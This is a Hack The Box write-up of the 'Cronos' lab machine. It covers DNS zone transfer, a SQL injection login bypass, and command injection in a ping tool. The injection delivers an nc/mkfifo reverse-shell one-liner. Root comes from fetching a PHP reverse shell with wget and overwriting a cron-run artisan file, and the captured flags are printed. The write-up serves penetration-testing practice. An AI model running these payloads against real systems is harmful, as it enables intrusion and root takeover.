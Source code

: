 ```yaml
---
title: Cronos
author: fieldraccoon
date: 2020-06-27 
categories: [hack-the-box, linux]
tags: [hack-the-box, medium, dns, sql]
math: true
---
```


# Cronos

Cronos was a medium linux box that required gaining access to a code execution site through dns searching and sql injection. This was then used to gain a shell on the system and read the user flag. Root required some enumeration to find the `/etc/crontab` file which we can abuse to gain a root shell with php.

> Skills involved in this box:

- enumeration
- privelage escalation
- dns searching using dig
- SQL 

# USER

As always we start off with an nmap scan:
```bash
kali@kali:~/boxes/cronos$ nmap -sC -sV -o nmap 10.10.10.13
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-27 04:51 EDT
Nmap scan report for 10.10.10.13
Host is up (0.036s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.08 seconds
```

The scan shows port 22 open on ssh even though it is not needed for this box. Port 80 fo http and port 53 open on tcp which we can use to try ad find subdomains for the host later.

We visit the page at http and find a default apache page. We quickly add `cronos.htb` to our hosts and refresh the page. We now get a normal website which doesnt seem too interesting.

We run directory brute-force tools such as gobuster but we dont find anything.

Instead we use `dig` to try and find any subdomains on `cronos.htb`:
```bash
kali@kali:~/boxes/cronos$ dig axfr @10.10.10.13 cronos.htb

; <<>> DiG 9.16.3-Debian <<>> axfr @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 20 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Sat Jun 27 04:55:32 EDT 2020
;; XFR size: 7 records (messages 1, bytes 203)
```
We Add all of theese to our hosts file which now looks like this: `10.10.10.13    cronos.htb www.cronos.htb ns1.cronos.htb admin.cronos.htb`

Navigating to `admin.cronos.htb` we find a login page, We try and guess common passwords but none of which work.

We then try to use SQL Injection to try and bypass the login page and it worked.

We used the username: `admin' OR 1=1 -- -` and we left the password field blank and we manage to login succesfully.

Now it shows us the title `Net Tool v0.1` and we can execute commands via the execute section where it allows us to ping an ip address.

It lets us ping an ip so we try to ping our own to see if we get a connection and it works.

we intercept the request with burpe to see whats going on.

`command=ping+-c+1&host=10.10.xx.xx`  - this is basically what it shows when executing the command, we can try edit this command to get code execution with anything such as `whoami` or `id`.

We then drop the request and go back to the page and see if we can get a reverse shell.

`10.10.xx.xx; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1234 >/tmp/f`

We enter this into the command bar and setup a listener and we get a shell.

From here we can then go on to read the user flag.
```bash
kali@kali:~/boxes/cronos$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.13] 51974
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@cronos:/var/www/admin$ cd /home
cd /home
www-data@cronos:/home$ ls
ls
noulis
www-data@cronos:/home$ cd noulis
cd noulis
www-data@cronos:/home/noulis$ ls
ls
user.txt
www-data@cronos:/home/noulis$ cat user.txt
cat user.txt
51d236438b333970dbba7dc3089be33b
```
# ROOT

By running linenum.sh on the system we find an interesting file on it called `/etc/crontab`.

```bash
ww-data@cronos:/home/noulis$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

We can see that this file is being ran as root, lets see if we can exploit it.

We see that it is running `/var/www/laravel/artisan` as root with php meaning its a php file. Lets try and add a reverse shell to the file and see if it executes it.

```bash
kali@kali:~$ python -m SimpleHTTPServer 8081
Serving HTTP on 0.0.0.0 port 8081 ...
10.10.10.13 - - [27/Jun/2020 05:12:20] "GET /php-reverse-shell.php HTTP/1.1" 200 -
```
We setup a python server to host our rev-shell file(which is edited to include our ip and port)
```bash
www-data@cronos:/tmp$ wget 10.10.14.7:8081/php-reverse-shell.php
wget 10.10.14.7:8081/php-reverse-shell.php
--2020-06-27 12:15:48--  http://10.10.14.7:8081/php-reverse-shell.php
Connecting to 10.10.14.7:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5492 (5.4K) [application/octet-stream]
Saving to: 'php-reverse-shell.php'

php-reverse-shell.p 100%[===================>]   5.36K  --.-KB/s    in 0.003s  

2020-06-27 12:15:48 (1.63 MB/s) - 'php-reverse-shell.php' saved [5492/5492]

www-data@cronos:/tmp$

www-data@cronos:/var/www/laravel$ cp /tmp/php-reverse-shell.php artisan
cp /tmp/php-reverse-shell.php artisan
```
Now we just set up a listener on the specified port that we added in our shell file and wait for a connection.

```bash
kali@kali:~$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.13] 46434
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 12:18:01 up 24 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# cat /root/root.txt
1703b8a3c9a8dde879942c79d02fd3a0
```
Thanks for reading hope you enjoyed.
